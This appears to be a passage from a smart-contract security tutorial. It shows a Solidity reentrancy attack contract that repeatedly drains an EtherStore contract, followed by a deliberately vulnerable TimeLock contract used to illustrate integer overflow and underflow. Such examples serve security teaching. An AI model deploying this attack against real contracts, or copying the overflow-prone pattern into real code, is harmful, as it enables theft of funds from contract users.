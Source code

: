 ```solidity

contract Attack {
    EtherStore public etherStore;
    constructor(address _etherStoreAddress) public {
        etherStore = EtherStore(_etherStoreAddress);
    }
    
    fallback() external payable {
        if(address(etherStore).balance >= 1 ether) {
            etherStore.withdraw(1 ether);
        }
    }
    
    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw(1 ether);
    }
    
    
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

### Arithmetic overflow and underflow

```solidity
pragma solidity ^0.6.10;

/*
overflow
underflow
uint = 2**256-1
-3 will be an underflow
*/

contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;
    
    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = now + 1 weeks;
    }
    
    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }
    
    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(now > lockTime[msg.sender], "lock time not expired");
        
        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;
        
        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

```